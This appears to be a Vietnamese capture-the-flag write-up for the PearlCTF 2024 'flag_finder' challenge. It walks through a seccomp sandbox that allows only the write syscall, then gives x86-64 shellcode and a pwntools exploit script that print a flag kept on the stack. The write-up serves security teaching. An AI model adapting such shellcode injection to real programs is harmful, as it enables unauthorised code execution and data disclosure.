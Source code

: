 # [PearlCTF-2024] flag_finder
<p>Dòng 48, đọc tối đa 254 byte từ stdin vào vùng nhớ v15. Sau khi gọi sub_4012FD, chương trình thực thi nội dung tại địa chỉ v15.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post8/image.png)

<p>Hàm sub_4012FD thiết lập seccomp để hạn chế các system call được phép.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post8/image-1.png)

<p>Sử dụng công cụ seccomp-tools để kiểm tra các system call được phép sử dụng. Chương trình chỉ cho phép đúng một system call là write, tất cả syscall khác đều bị chặn (KILL).</p>

![alt text](/thanhlai/post/buffer_overflow/image/post8/image-3.png)

<p>Khi nhập chuỗi "abcd", chương trình cố gắng thực thi nội dung tại địa chỉ v15. Do đây không phải shellcode hợp lệ, quá trình thực thi gây lỗi. Trong quá trình debug, quan sát thấy nội dung flag đã được lưu sẵn trên stack, bắt đầu tại địa chỉ rsp + 0x18.
Do chương trình chỉ cho phép syscall write, ta có thể viết shellcode đơn giản để đọc flag từ stack và in nó ra stdout.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post8/image-2.png)

```
    mov rax, 1          ; syscall write
    mov rdi, 1          ; stdout
    add rsp, 0x18       ; địa chỉ buffer 
    mov rsi, rsp        ; tham số 1 (địa chỉ chứa flag)
    mov rdx, 32         ; độ dài (giả sử: 32 byte)
    syscall
```

<p>Script exploit:</p>

```
from pwn import *

p = process('./flag-finder')  

shellcode = asm(
	'''
	mov rax, 1        
    mov rdi, 1         
    add rsp, 0x18       
    mov rsi, rsp        
    mov rdx, 32        
    syscall
	''', arch = 'amd64'
)

p.sendlineafter(b'> ', shellcode)

p.interactive()
```

<p>Chạy script và lấy được flag thành công.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post8/image-4.png)